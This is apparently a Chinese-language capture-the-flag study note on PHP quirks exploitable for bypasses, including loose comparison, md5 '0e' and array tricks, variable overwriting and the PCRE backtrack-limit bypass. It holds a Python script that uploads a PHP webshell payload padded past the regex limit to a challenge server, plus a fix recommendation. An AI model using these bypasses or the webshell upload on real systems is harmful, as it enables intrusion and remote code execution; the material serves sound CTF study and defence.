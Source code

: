 # PHP特性

## 重要函数

|函数名称|作用|特性|
| --- | --- | --- |
|[is_numeric()](https://www.php.net/manual/zh/function.is-numeric.php)|检测变量是否为数字或数字字符串|科学计数法|
|[intval()](https://www.php.net/manual/zh/function.intval.php)|获取变量的整数值|1. 成功时返回`value`的`integer`值，失败时返回`0`。 空的 array 返回     `0`，非空的`array`返回`1`。<br /> 2. 如果 base 是 0，通过检测 value 的格式来决定使用的进制<br />3. 科学计数法，在PHP5.6、7.0与7.1版本表现不一致|
|[preg_replace()](https://www.php.net/manual/zh/function.preg-replace.php)|执行一个正则表达式的搜索和替换|1.`/e`修饰符，代码执行|
|[preg_match()](https://www.php.net/manual/zh/function.preg-match.php)|执行匹配正则表达式|1.数组返回false <br /> 2. 换行 <br /> 3. 回溯次数限制绕过|
|[in_array()](https://www.php.net/manual/zh/function.in-array.php)、[array_search()](https://www.php.net/manual/zh/function.array-search.php)|检查数组中是否存在某个值|如果没有设置strict，则使用松散比较
|[chr()](https://www.php.net/manual/zh/function.chr.php)|返回指定的字符|1. 如果数字大于256，返回`mod 256`|

## 变量覆盖漏洞

变量覆盖漏洞是指通过自定义的参数值控制原有变量值。

- [可变变量`$$`](https://www.php.net/manual/zh/language.variables.variable.php) - 一个变量的变量名可以动态的设置和使用
- [parse_str()](https://www.php.net/manual/zh/function.parse-str.php) - 将字符串解析成多个变量
- [extract()](http://php.adamharvey.name/manual/zh/function.extract.php) - 从数组中将变量导入到当前的符号表
- [import_request_variables()](http://php.adamharvey.name/manual/zh/function.import-request-variables.php) -  将 GET／POST／Cookie 变量导入到全局作用域中

练习题目
  - ISCC_2019_web4

## 浮点数精度绕过

- 在小数小于某个值（10^-16）以后，再比较的时候就分不清大小了
- 常量
	- `NaN`，
	- `INF`，无穷大

- 题目
  - ciscn2020-easytrick

## 哈希函数比较

计算字符串的散列值[md5()](https://www.php.net/manual/zh/function.md5)、[sha1()](https://www.php.net/manual/zh/function.sha1.php)

- 哈希值为`0e`开头的字符串 - `md5('240610708') == md5('QNKCDZO')`


```php
<?php
// 松散比较不等，md5值相等
if ($str1 != $str2) if (md5($str1) == md5($str2)) die($flag);
```

- 数组绕过 - `md5(array)`，如果参数类型为数组，返回`NULL`

```php
<?php
// 原字符串不全等，md5值全等
if ($str1 !== $str2) if (md5($str1) === md5($str2)) die($flag);
if ($str1 !== $str2) if (md5($salt.$str1) === md5($salt.$str2)) die($flag);

// ?a[]=..&b[]=...
```

- [不同的数值构建一样的MD5](https://xz.aliyun.com/t/2232)

```php
// 原字符串不全等，md5值全等
if ((string)$str1 !== (string)$str2) if (md5($str1) === md5($str2)) die($flag);
```

- 字符串的MD5值等于其本身

```php
$str == md5($str)
```

寻找一个`0e`开头的字符串，且其md5值也是`0e`开头。

```php
<?php
for($i;;$i++) if("0e{$i}" == md5("0e{$i}")) die("0e{$i}"); 
# 输出 0e215962017
```

- 截断比较，字符串的md5的指定长度等于某个数

```php
substr(md5($str), 0, 6) == "******"
```

采用暴力碰撞方式

```php
<?php
for($i;;$i++) if(substr(md5($i), 0, 6) == "******") die("$i"); 
```

练习题目
- 2017-HackDatKiwi-md5games1
- 2018-强网杯-web签到


## PCRE回溯次数限制绕过

例题[Code-Breaking Puzzles](https://code-breaking.com/)的[pcrewaf](https://github.com/phith0n/code-breaking/tree/master/2018/pcrewaf)

```php
<?php
// 判断是否是PHP代码
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

// 注意preg_match()的返回值，返回0 或false均满足条件
if(!is_php($input)) {
    // fwrite($f, $input); ...
}
```

PCRE（Perl Compatible Regular Expressions）是一个Perl语言兼容的正则表达式库。PHP采用PCRE库实现正则表达式功能。

默认情况下，量词都是`贪婪`的，也就是说， 它们会在不导致模式匹配失败的前提下，尽可能多的匹配字符(直到最大允许的匹配次数)。

然而，如果一个量词紧跟着一个`?`(问号) 标记，它就会成为懒惰(非贪婪)模式， 它不再尽可能多的匹配，而是尽可能少的匹配。 

`<?php phpinfo();?>//aaaaaa`，执行过程如下：

PCRE的参数回溯次数限制`pcre.backtrack_limit`默认为`1000000`。

如果回溯次数超过限制，`preg_match()`返回`false`，表示只执行失败。

PCRE回溯次数限制绕过的原理是通过发送超长字符串，使正则执行失败，最后绕过目标对PHP语言的限制。

- 贪婪模式
- 对返回值的判断不够严谨

```python
import requests
from io import BytesIO

files = {
  'file': BytesIO(b'aaa<?php eval($_POST[txt]);//' + b'a' * 1000000)
}

res = requests.post('http://51.158.75.42:8088/index.php', files=files, allow_redirects=False)
print(res.headers)
```

### 修复建议

PHP文档上有关于`preg_match`的警告，应使用全等`===`来测试函数的返回值。
 
```php
<?php
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

if(is_php($input) === 0) {
    // fwrite($f, $input); ...
}
```

[PCRE库](https://www.pcre.org/)

[PHP正则表达式文档](https://www.php.net/manual/zh/book.pcre.php)

https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html